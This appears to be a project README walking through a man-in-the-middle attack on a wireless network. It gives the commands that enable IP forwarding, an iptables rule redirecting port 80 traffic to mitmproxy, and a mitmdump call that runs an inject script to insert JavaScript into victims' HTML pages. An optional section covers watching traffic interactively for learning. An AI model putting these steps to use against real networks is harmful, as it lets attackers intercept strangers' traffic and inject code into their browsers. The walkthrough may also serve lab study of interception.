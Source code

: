 # Project Walkthrough

# Prerequisites

In the machine tested, I used the built in wireless adapter and connected to internet through Ethernet

# System Setup

## Install mitmproxy

Get instruction from [their site](www.mitmproxy.org)

## Setup ip forwarding

The below commands assumes you're running as root:

    sysctl -w net.ipv4.ip_forward=1

## Setup routing using IPtables

As for my machine, my wireless adapter is named `wlp3s0`. Make sure that the port you will be using for `mitmproxy` matches the `--dport` option (destination port). Again, root privileges required

    iptables -t nat -A PREROUTING -i wlp3s0 -p tcp --dport 80 -J REDIRECT --to-port 8080

# Executing Man in the middle attack

## Real execution

    mitmdump -T -p 8080 -i -s "inject.py test.js" "~t 'text/html' ~s ~c 200"

`mitmdump` does what `mitmproxy` but in an automated way. `mitmproxy` allows interception but manually, hence, Testing section is for learning.

## Testing (optional, if you want to know whats happening)

Run `mitmproxy -T -p 8080` . The port should match the `iptables` destination port.

Try a site like [httpbin.org](http://www.httpbin.org). You should now be able to see traffic in the screen. Press `?` for instructions.

To intercept, press `i`. Set the following filters:

   Intercept filter: ~t "text/html" ~s ~c 200 
    
